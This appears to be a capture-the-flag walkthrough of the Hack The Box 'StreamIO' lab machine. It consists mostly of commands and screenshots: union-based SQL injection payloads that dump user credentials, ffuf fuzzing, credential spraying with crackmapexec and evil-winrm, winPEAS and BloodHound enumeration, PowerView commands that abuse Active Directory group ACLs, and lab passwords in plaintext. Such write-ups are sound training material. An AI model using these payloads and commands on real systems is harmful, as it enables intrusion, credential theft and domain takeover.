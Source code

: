 ```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```



nmap -sS -sC -sV -T5 -Pn 10.10.11.158
![image](https://user-images.githubusercontent.com/33616880/231678963-7c74a0a4-d0d6-4c7a-9dd6-15fa0a3a0f90.png)



https://watch.streamio.htb/
![image](https://user-images.githubusercontent.com/33616880/231679081-ce827ae4-c21b-4073-b1d1-8d9f7ef87bb8.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://watch.streamio.htb/FUZZ -fc 403 -e .aspx,.php,.txt,.html



https://watch.streamio.htb/search.php
![image](https://user-images.githubusercontent.com/33616880/231679168-05ee4b46-32aa-44b9-9dc0-acdac11c53bb.png)


```
10' union select 1,2,3,4,5,6 -- -
10' union select 1,@@version,3,4,5,6 -- -
10' union select 1,(select DB_NAME()),3,4,5,6 -- -
10' union select 1,(SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6 -- -
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```


![image](https://user-images.githubusercontent.com/33616880/231682312-5800f445-3c89-4aa3-8110-5de64c805117.png)
![image](https://user-images.githubusercontent.com/33616880/231682585-e0902d6b-7ac8-41c8-8a42-b7cd78fe1776.png)
![image](https://user-images.githubusercontent.com/33616880/231682816-1f5bd069-b658-41e1-8355-afecd16ba1b8.png)
![image](https://user-images.githubusercontent.com/33616880/231683062-e55c2a7f-0633-4bf9-b7d1-d1d76e48ba57.png)
![image](https://user-images.githubusercontent.com/33616880/231683260-9e522f56-bdb3-407f-86c4-7b7087301533.png)
![image](https://user-images.githubusercontent.com/33616880/231683518-ed431e05-ff5f-4803-811e-690220fd83e0.png)



![image](https://user-images.githubusercontent.com/33616880/231683958-c70902d2-5b01-42f5-8ff4-391b6e1921de.png)



https://streamio.htb/login.php
![image](https://user-images.githubusercontent.com/33616880/231684123-97a34f6f-ee6a-4801-9bff-0df23c33adbf.png)


yoshihide | 66boysandgirls..
![image](https://user-images.githubusercontent.com/33616880/231684191-deebb280-68bc-4a64-925e-27d2ae57c876.png)



![image](https://user-images.githubusercontent.com/33616880/231685199-5f8f77ea-2941-4e43-b790-ad255a05b590.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=uuvl3he49lki4offn75s78p6m4 -fs 1678
![image](https://user-images.githubusercontent.com/33616880/231685748-72927c4a-a4d4-4c78-b3cd-1f1b79687378.png)


![image](https://user-images.githubusercontent.com/33616880/231685826-403dd7d3-9fbf-4633-9a0d-eadc14d8a6bd.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/FUZZ' -b PHPSESSID=uuvl3he49lki4offn75s78p6m4 -e .php
![image](https://user-images.githubusercontent.com/33616880/231685928-48a47caa-43a2-4427-bf94-e1b796dd2339.png)


![image](https://user-images.githubusercontent.com/33616880/231686014-782672f5-2cd5-4701-ae65-e2c0a17b50a7.png)



crackmapexec winrm streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
![image](https://user-images.githubusercontent.com/33616880/231686173-feab63d2-f0eb-4ace-8ffa-75df669cec01.png)



evil-winrm -i streamIO.htb -u nikk37 -p get_dem_girls2@yahoo.com
![image](https://user-images.githubusercontent.com/33616880/231686295-621f2f18-be32-4e7e-90af-b0dada0b1254.png)



https://github.com/carlospolop/PEASS-ng/releases
```
upload winPEASx64.exe
./winPEASx64.exe
```
![image](https://user-images.githubusercontent.com/33616880/231686514-0c6ced70-5cf4-48e3-8951-6b9ba81b18e0.png)
![image](https://user-images.githubusercontent.com/33616880/231686548-aa5a6439-c37c-4f74-a300-568f7ac4193a.png)
![image](https://user-images.githubusercontent.com/33616880/231686573-5ded1f6d-582b-41dd-adbd-30e8fa3f7b43.png)



```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
```
![image](https://user-images.githubusercontent.com/33616880/231689414-7ac352c9-8c51-4649-969a-1245d1e8da01.png)

```
python3 bloodhound.py -d streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -gc dc.streamio.htb -ns 10.10.11.158 -c all --zip
```
![image](https://user-images.githubusercontent.com/33616880/231689571-2822ed95-a439-4a13-bd6d-ecf916b1e419.png)



![image](https://user-images.githubusercontent.com/33616880/231689606-cd64e06c-6078-48de-a790-ecdcf6537b66.png)



```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
upload PowerView.ps1
```
![image](https://user-images.githubusercontent.com/33616880/231689707-f1d88d6e-c3cf-405a-8b91-7a4fe11edabf.png)



```
. .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText –Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred
net group 'CORE STAFF'
```

![image](https://user-images.githubusercontent.com/33616880/231689882-e7a2ef35-a3d0-4aa9-8f7f-2aa99b63203c.png)



evil-winrm -i streamIO.htb -u administrator -p e1JFg,55n-b2w5
![image](https://user-images.githubusercontent.com/33616880/231689974-20ed5dca-92b5-43ec-b985-0d56bcfacec8.png)
![image](https://user-images.githubusercontent.com/33616880/231690002-65764103-055f-4f93-8761-26278c100fcf.png)
